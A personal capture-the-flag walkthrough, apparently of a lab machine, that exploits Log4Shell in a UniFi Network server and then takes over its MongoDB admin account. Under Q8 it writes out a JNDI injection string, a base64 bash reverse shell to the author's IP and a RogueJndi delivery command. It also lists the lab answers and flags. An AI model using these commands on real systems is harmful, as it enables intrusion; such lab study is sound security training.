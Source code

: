 
___

### Q1: Which are the first four open ports?

#### A: 22, 6789, 8080, 8443

Scan with nmap with -sV flag.

![](../../Img/Pasted%20image%2020250424150410.png)

___

### Q2: What is the title of the software that is running running on port 8443?

#### A: UniFi Network

I had to run the scan again with the -sC flag
![](../../Img/Pasted%20image%2020250424151327.png)

___

### Q3: What is the version of the software that is running?

#### A: 6.4.54

There wasn't version number in the scan, so digging around i went to the web page of this service (on port 8443) and got this.
![](../../Img/Pasted%20image%2020250424151922.png)

___

### Q4: What is the CVE for the identified vulnerability?

#### A: CVE-2021-44228

Googling around i found this github repo (https://github.com/puzzlepeaches/Log4jUnifi) that had the answer.

___

### Q5: What protocol does JNDI leverage in the injection?

#### A: LDAP

Looking at that cve we get it.

![](../../Img/Pasted%20image%2020250424153434.png)

___

### Q6: What tool do we use to intercept the traffic, indicating the attack was successful?

#### A: tcpdump

It's just the tool for that.

___

### Q7: What port do we need to inspect intercepted traffic for?

#### A: 389

It looks like ldap traffic goes to port 389

![](../../Img/Pasted%20image%2020250424155244.png)

___

### Q8: What port is the MongoDB service running on?

#### A: 27117

So, according to this article (https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) in the remember parameter goes a payload ("${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\"), but as i'm not using that tool (dnslog.cn) i just use my ip and tcpdump
I get an error

![](../../Img/Pasted%20image%2020250424160606.png)

but also a connection

![](../../Img/Pasted%20image%2020250424160627.png)

With this command we can encrypt the payload for the jndi echo 'bash -c bash -i >&/dev/tcp/{ip}/3333 0>&1' | base64
We insert that payload in the command for starting the jndi sv java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTU3LzMzMzMgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.157"

![](../../Img/Pasted%20image%2020250424162840.png)

in burp suite we replace the payload form the remember parameter with our new jdni port (${jndi:ldap://10.10.15.157/:1389/o=tomcat})
we get the connection

![](../../Img/Pasted%20image%2020250424163652.png)

Upgrade it (script /dev/null -c bash)
Now finally for the question let's check if mongo is running (ps aux | grep mongo)

![](../../Img/Pasted%20image%2020250424163929.png)

___

### Q9: What is the default database name for UniFi applications?

#### A:  ace

Before i had the genius ground breaking idea of just googling it, i connected to the mongo instance and listed the db

![](../../Img/Pasted%20image%2020250424164412.png)

![](../../Img/Pasted%20image%2020250424164226.png)

___

### Q10: What is the function we use to enumerate users within the database in MongoDB?

#### A: db.admin.find()

This doesn't seem to me like a just find user command, db.getUsers() seems like the answer (https://www.prisma.io/dataguide/mongodb/configuring-mongodb-user-accounts-and-authentication)

___

### Q11: What is the function we use to update users within the database in MongoDB?

#### A: db.admin.update()

Following the trend here, i got no problem with this one .

___

### Q12: What is the password for the root user?

#### A: NotACrackablePassword4U2022

I Chose the Shadow Admin method from the article. I created a pswd (qweqwe12345), sha-512 it, replace the one the admin had with (db.admin.update())
and just log in

![](../../Img/Pasted%20image%2020250424170005.png)

Now, in the Steal SSH Creds it says how to get the answer

![](../../Img/Pasted%20image%2020250424170142.png)

___

### Q13: Submit user flag

#### A: 6ced1a6a89e666c0620cdb10262ba127

shh into it 

![](../../Img/Pasted%20image%2020250424170310.png)

go find it

![](../../Img/Pasted%20image%2020250424170542.png)

___

### Q14: Submit root flag

#### A: e50bc93c75b634e4b272d2f771c33681

Look for it 

![](../../Img/Pasted%20image%2020250424170430.png)

Tags: [JNDI](../../Index/JNDI.md) [MongoDB](../../Index/MongoDB.md) [Nmap](../../Index/Nmap.md)